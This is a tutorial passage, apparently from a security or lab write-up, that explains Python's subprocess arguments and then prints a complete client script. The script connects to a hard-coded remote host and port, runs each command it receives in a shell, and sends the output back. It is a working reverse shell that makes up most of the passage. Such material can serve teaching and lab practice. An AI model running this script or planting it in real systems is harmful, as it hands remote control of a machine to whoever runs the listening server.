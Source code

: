 The subprocess module allows to run other programs and commands within python code.

* `subprocess.Popen()` is used to start a new process.
* `command`: This is the command received from the server.
* `shell=True`: Runs the command in a shell, allowing execution of shell-specific commands like `ls`, `dir`, `cd`, etc.
* `stdout=subprocess.PIPE`: Captures the command's standard output.
* `stderr=subprocess.PIPE`: Captures any errors from the command.

#### Complete client script

```python
import socket
import subprocess

HOST = "10.10.14.168"
PORT = 8080

def main():
    with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client:
        client.connect((HOST, PORT))
        print(f'[*] Connected to {HOST}:{PORT}')
    
        while True:
            command = client.recv(1024).decode('utf-8')  # Receive command from server
            if not command:
                break

            if command.lower() == 'exit':  # Close connection if 'exit' command is received
                break
            
            try:
                result = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
                output, error = result.communicate()
                output = output.decode('utf-8') + error.decode('utf-8')
            except Exception as e:
                output = str(e)

            client.send(output.encode('utf-8'))  # Send output back to server

if __name__ == "__main__":
    main()
```

